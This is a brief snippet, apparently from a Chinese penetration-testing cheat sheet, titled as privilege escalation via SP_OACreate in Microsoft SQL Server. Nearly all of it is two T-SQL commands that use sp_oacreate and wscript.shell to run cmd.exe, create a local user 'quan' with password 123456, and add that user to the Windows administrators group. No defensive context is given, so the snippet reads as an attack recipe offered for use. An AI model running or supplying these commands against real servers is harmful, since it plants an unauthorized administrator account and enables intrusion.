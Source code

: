 （3）利用SP_OACreate提权

```
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c net user quan 123456 /add'

declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c net localgroup administrators quan /add'
```

